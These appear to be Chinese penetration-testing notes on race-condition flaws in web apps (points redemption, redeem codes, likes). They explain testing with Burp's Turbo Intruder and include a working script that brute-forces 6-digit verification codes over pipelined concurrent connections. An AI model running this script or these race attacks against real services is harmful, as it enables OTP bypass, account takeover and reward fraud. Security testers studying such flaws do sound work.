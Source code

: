 并发漏洞：在和数据库交互同一资源时，没有使用数据库事务，导致多个请求并发读取的某个数据的同一状态。(多线程条件竞争)
场景：关注、点赞、收藏、兑换码、积分兑换。
有20积分，同时兑换20积分和15积分的商品。
危害：无限制表插值，浪费资源，一码多用等。

^
## **turbo-intruder测试**
bp插件测并发漏洞，turbo-intruder插件。

<https://blog.csdn.net/m0_63421985/article/details/133899675>
<https://www.wangan.com/p/7fy7f444b121d0aa>
安装后右键请求包，扩展，就可以使用。
进入请求包页面，
在请求包中任意加变量%s：
如：在Host下方输入：x-req:%s
选择代码examples/race.py
代码中concurrentConnections值改为10。range(10)改为10。改成并发10
执行攻击代码。

^
查看并发结果，比较响应长度，是否有并发漏洞。

yakit:
![yakit并发](http://cdn.33129999.xyz/mk_img/yakit并发.jpg)
^
案例场景：
<https://blog.csdn.net/Gherbirthday0916/article/details/130639360>


^
## **并发爆破**
<https://sanshiok.com/archive/16.html>
对请求包参数有爆破变化的并发。

%s爆破6位数验证码
```
from itertools import product


def brute_veify_code(target, engine, length):
    pattern = '1234567890'  # 用于生成字典的迭代对像

    for i in list(product(pattern, repeat=length)):  # product()接收多个迭代对像，然后生成一个笛卡尔积，repeat参数代表重复迭代对象次数。

        code = ''.join(i)

        engine.queue(target.req, code)


def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,  # 指定目标的地址

                           concurrentConnections=30,  # 与服务器建立30条连接

                           requestsPerConnection=100,  # 每条连接同时发送100个请求

                           pipeline=True  # 开启管道(HTTP Pipelining)模式

                           )

    brute_veify_code(target, engine, 6)  # 根据验证码位数修改


def handleResponse(req, interesting):
    if 'error' not in req.response:  # 对response进行操作，不含有“error”的添加入表中
        table.add(req)
```
